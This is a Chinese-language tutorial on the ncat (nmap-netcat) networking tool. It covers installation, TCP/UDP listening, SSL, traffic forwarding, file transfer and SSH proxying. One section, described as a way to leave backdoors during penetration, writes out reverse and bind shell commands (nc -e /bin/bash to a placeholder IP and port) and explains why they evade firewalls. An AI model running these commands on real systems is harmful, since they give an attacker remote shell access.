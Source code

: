## nmap-netcat(nc)

nc 是由 C 编写的非常强悍的网络工具，`nc` 主要有 4 个版本，gnu nc （2004 年停止维护，也叫 nc traditional）， openbsd nc（重写了 gnu nc，在正常维护），nmap-netcat（也叫 ncat，由 nmap 重写 nc traditional，被称为 21 世纪的 netcat，也是功能最多的 nc）。

下面我介绍的就是 nmap-netcat，出现的不论是 `nc` 还是 `ncat` 请一律当 `ncat` 处理，因为部分在 CentOS 上执行，CentOS上的 `nc` 就是 `ncat`。

## 安装

https://nmap.org/download ，ncat 集成在 nmap 中，可以通过安装 nmap 获取 ncat 。

### Centos / RedHat

```zsh
yum install nc
```

名字就是 nc，但是安装的时候能看到安装的是 nmap-netcat。

### Archlinux

```zsh
sudo pacman -S nmap
```

archlinux 通过装 nmap 会附带上 ncat（即 nc）。

## 功能介绍

### 端口扫描

`ncat` 没有端口扫描（但是 openbsd nc 有），谁让它是由 nmap.org 重写的呢，`nmap` 本身就可以说是命令行工具中的端口扫描这块做的最好的，所以集成在 `nmap` 中的 `ncat` 没有必要还带端口扫描功能，端口扫描直接用 nmap。

### TCP/UDP 通信

```zsh
# -l 表示监听，-p 指定端口，-v 表示会输出详细信息(-vv, -vvv 可以更详细)
# 默认是监听 tcp 。
ncat -lvp 1589
```

```zsh
# 唯一跟上面不同的就是这次监听的是 udp 。
ncat -lvup 1589
```

可以按 [mkcert](https://m4n5ter.github.io/linux/mkcert/mkcert.html) 生成自签证书。

```zsh
# 使用 ssl 来加密通信（否则是明文的，统一网络的人可以轻松嗅探到传输内容）
# --ssl-key，--ssl-cert 可以手动指定证书，--ssl 是生成并使用一个临时证书
ncat --ssl -lvp 1589
```

```zsh
# 如果监听端使用了 --ssl 那么客户端也需要。
 ncat --ssl -nv <IP Address> 1589
```

成功建立通信后可以直接在命令行输入字符来进行通信，会像聊天一样。

### 流量转发

流量转发可以用很多姿势，这里我用一个比较容易理解的姿势：

```zsh
# 目标机器
nc -lvvp 1665
# 中间负责转发的机器。-c 表示连接后直接用 sh 执行 -c 的内容。
# 这里是表示连接到达中间服务器后，中间服务器再连接目标服务器，从而实现流量转发
nc -lvvp 1589 -c 'nc -nv <目标机器 IP> <端口>'
# 客户端
nc -nv <中间机器 IP> <中间机器端口>
```

这样操作后，当客户端执行时，流量走向为：

```
客户端 -> 中间机器 IP:PORT -> 目标机器 IP:PORT
```

### 发送文件

既然都能通信了，那么发文件也是理所应当的，传文件本质也是流量传输。

```zsh
# 提供文件的机器，这样表示建立连接后把 temp.txt 的内容发送过去
nc -lvvp 1665 < temp.txt
# 需要获取文件的机器，这样与目标建立连接后，把它发过来的内容重定向到一个文件中
nc -nv <IP> <PORT> > out.txt
```

方向换一下也是同理：

```zsh
# 接收文件的机器
nc -lvvp 1665 > out.txt
# 发送文件的机器
nc -nv <IP> <PORT> < temp.txt
```

### 反弹 Shell

这个一般用于渗透时留后门，主要是利用 `nc` 的 `-c` 和 `-e` 。

```zsh
# 让客户端发送自己的 shell 给 <IP> <PORT>
# 客户端，这样 <IP> <PORT> 被监听时就会拿到客户端的 shell
# 后续 <IP> <PORT> 要再转发还是什么都可以自由操作
nc -nv <IP> <PORT> -e /bin/bash
-or
nc -nv <IP> <PORT> -c bash
```

```zsh
# 客户端开启一个端口，在这个端口上直接暴露自己的 shell
nc -lp 6666 -e /bin/bash
```

如果用于渗透，受害者一般是内网环境，所以都是用的第一种，主动发送 shell 给攻击者。第二种需要攻击者能访问到受害者的 ip:port 才行。加上一般都有防火墙阻拦，受害者的入站流量可能会被防火墙拦截，但是防火墙一般不会对出站流量有限制，这也是第一种方式的用的比较多的原因。

如果攻击者没有能让受害者访问到的 IP，一般通过内网穿透即可解决。

### SSH 代理

~/.ssh/config

```zsh
Host github.com
  ProxyCommand ncat --proxy 127.0.0.1:10808 --proxy-type <Your proxy type>  %h %p
```

这样对 github 仓库进行 `git pull` `git push` 这样的操作都会走代理。

  `--proxy` 和 `--proxy-type` 可以让 `ncat` 摇身一变为一个代理工具。

### `--allow` / `--allowfile`

限制可以连接到 `ncat`（`nc`） 的 hosts，可以指定一些 IP，来做到只允许指定目标连接。

### `--deny` / `--denyfile`

与上面的相反，它是拒绝。

## 更多功能请自行探索

`ncat` 提供了许多功能，这些功能可以相互组合，或者配合其它东西来使用，能玩出的花样是非常多的。
